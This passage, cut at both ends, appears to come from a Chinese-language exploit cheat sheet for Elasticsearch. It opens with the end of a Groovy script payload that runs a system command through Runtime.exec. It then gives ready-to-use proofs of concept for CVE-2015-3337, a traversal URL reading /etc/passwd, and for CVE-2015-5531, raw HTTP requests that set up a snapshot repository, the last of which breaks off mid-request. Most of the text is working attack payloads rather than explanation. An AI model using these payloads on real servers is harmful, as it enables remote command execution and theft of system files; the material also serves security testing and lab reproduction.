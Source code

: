     {"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
    ```

**CVE-2015-3337 目录穿越漏洞**
- 简介

    在安装了具有"site"功能的插件以后,插件目录使用../即可向上跳转,导致目录穿越漏洞,可读取任意文件.没有安装任意插件的 elasticsearch 不受影响.

- 影响版本

    - ElasticSearch < 1.4.4
    - ElasticSearch 1.5.0 ~ 1.5.1

- POC | Payload | exp

    来源: https://vulhub.org/#/environments/elasticsearch/CVE-2015-3337/

    - `http://your-ip:9200/_plugin/head/../../../../../../../../../etc/passwd` (不要在浏览器访问)

    - `http://your-ip:9200/_plugin/head/`

**CVE-2015-5531**
- 简介

    elasticsearch 1.5.1 及以前,无需任何配置即可触发该漏洞.之后的新版,配置文件 elasticsearch.yml 中必须存在 path.repo,该配置值为一个目录,且该目录必须可写,等于限制了备份仓库的根位置.不配置该值,默认不启动这个功能.

- 影响版本

    - ElasticSearch < 1.6.0

- 文章
    - [Elasticsearch目录遍历漏洞 (CVE-2015-5531) 复现与分析 (附PoC) ](https://www.freebuf.com/vuls/99942.html)

- POC | Payload | exp

    来源: https://vulhub.org/#/environments/elasticsearch/CVE-2015-5531/

    新建一个仓库
    ```
    PUT /_snapshot/test HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 108

    {
        "type": "fs",
        "settings": {
            "location": "/usr/share/elasticsearch/repo/test"
        }
    }
    ```

    创建一个快照
    ```
    PUT /_snapshot/test2 HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 108
